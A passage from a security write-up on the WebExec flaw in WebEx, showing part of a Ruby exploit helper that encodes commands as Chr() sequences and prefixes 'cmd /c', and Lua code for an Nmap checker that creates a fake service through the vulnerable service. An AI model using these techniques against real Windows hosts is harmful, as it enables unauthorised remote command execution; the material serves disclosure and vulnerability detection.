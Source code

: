 ```
      <span class="rubyStringDelimiter">"</span><span class="String">Chr(</span><span class="rubyInterpolationDelimiter">#{</span>c.ord<span class="rubyInterpolationDelimiter">}</span><span class="String">)</span><span class="rubyStringDelimiter">"</span>
    <span class="Statement">end</span>.join(<span class="rubyStringDelimiter">'</span><span class="String">+</span><span class="rubyStringDelimiter">'</span>)
  <span class="Statement">end</span>

  <span class="Comment"># Prepend "cmd /c" so we can use a redirect</span>
  command = <span class="rubyStringDelimiter">"</span><span class="String">cmd /c </span><span class="rubyStringDelimiter">"</span> + command

  execute_single_command(command, opts)
<span class="Statement">end</span>
```

First, it replaces the empty string with <tt>mid(Chr(65), 1, 0)</tt>, which works out to characters 1 - 1 of the string "A". Or the empty string!

Second, it replaces every other string with <tt>Chr(n)+Chr(n)+...</tt>. We couldn't use <tt>&</tt>, because that's already used by the shell to chain commands. I later learned that we can escape it and use <tt>^&</tt>, which works just fine, but <tt>+</tt> is shorter so I stuck with that.

And finally, we prepend <tt>cmd /c </tt> to the command, which lets us echo to a file instead of just passing the <tt>></tt> symbol to the process. We could probably use <tt>^></tt> instead.

In a targeted attack, it's obviously possible to do this much more cleanly, but this seems to be a great way to do it generically!

## Checking for the patch

This is one of those rare (or maybe not so rare?) instances where exploiting the vulnerability is actually easier than checking for it!

The patched version of WebEx still allows remote users to connect to the process and start it. However, if the process detects that it's being asked to run an executable that is not signed by WebEx, the execution will halt. Unfortunately, that gives us no information about whether a host is vulnerable!

There are a lot of targeted ways we could validate whether code was run. We could use a DNS request, telnet back to a specific port, drop a file in the webroot, etc. The problem is that unless we have a generic way to check, it's no good as a script!

In order to exploit this, you have to be able to get a handle to the service-controlservice (svcctl), so to write a checker, I decided to install a fake service, try to start it, then delete the service. If starting the service returns either `OK` or `ACCESS_DENIED`, we know it worked!

Here's the important code from the [Nmap checker module we developed](https://github.com/iagox86/nmap-webexec/blob/master/scripts/smb-vuln-webexec.nse):

```
<pre id="vimCodeElement">
<span class="Comment">-- Create a test service that we can query</span>
<span class="Type">local</span> webexec_command <span class="Operator">=</span> <span class="String">"sc create "</span> <span class="Operator">..</span> test_service <span class="Operator">..</span> <span class="String">" binpath= c:</span><span class="SpecialChar">\\</span><span class="String">fakepath.exe"</span>
status, result <span class="Operator">=</span> msrpc.<span class="PreProc">svcctl_startservicew</span>(smbstate, open_service_result[<span class="String">'handle'</span>], stdnse.<span class="PreProc">strsplit</span>(<span class="String">" "</span>, <span class="String">"install software-update 1 "</span> <span class="Operator">..</span> webexec_command))

<span class="Comment">-- ...</span>

<span class="Type">local</span> test_status, test_result <span class="Operator">=</span> msrpc.<span class="PreProc">svcctl_openservicew</span>(smbstate, open_result[<span class="String">'handle'</span>], test_service, <span class="Number">0x00000</span>)

```